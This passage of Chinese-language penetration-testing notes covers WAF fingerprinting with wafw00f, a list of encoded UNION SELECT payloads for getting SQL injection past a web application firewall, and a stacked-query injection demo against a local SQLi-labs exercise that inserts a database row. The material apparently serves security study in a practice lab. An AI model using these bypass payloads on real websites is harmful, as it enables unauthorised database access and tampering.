 ###### 命令：wafw00f 域名/IP

![img](https://gitee.com/YatJay/image/raw/master/img/202202161602613.png)

### 部分 bypass sqlinject payload

```
id=1union/*%00*/%23a%0A/*!/*!select1,2,3*/;%23

id=-1union/*%00*/%23a%0A/*!/*!select%201,database%23x%0A(),3*/;%23

id=-1%20union%20/*!44509select*/%201,2,3%23

id=-1%20union%20/*!44509select*/%201,%23x%0A/*!database*/(),3%23

id=1/**&id=-1%20union%20select%201,2,3%23*/

id=-1%20union%20all%23%0a%20select%201,2,3%23

id=-1%20union%20all%23%0a%20select%201,%230%0Adatabase/**/(),3%23
```



# 案例演示

## Sqlilabs-Less38-堆叠注入(多语句)

在执行select时的sql语句为：`SELECT * FROM users WHERE id='$id' LIMIT 0,1`

正常提交id值：

![](https://gitee.com/YatJay/image/raw/master/img/202202160941491.png)

可以直接构造如下的payload：

```sql
http://localhost/pentest/sqlilabs/Less-38/index.php?id=1';insert into users(id,username,password) values ('38','less38','hello')--+
```

![](https://gitee.com/YatJay/image/raw/master/img/202202160944412.png)

再看数据表中的内容：可以看到less38已经添加

![](https://gitee.com/YatJay/image/raw/master/img/202202160945085.png)



## WAF部署-安全狗,宝塔等waf搭建部署

安全狗：[📎safedogfwq_Windows_Help.pdf](https://www.yuque.com/attachments/yuque/0/2021/pdf/22078880/1628829165383-acc2ec9d-8d4e-4266-b2bb-cce9118fdf0e.pdf)
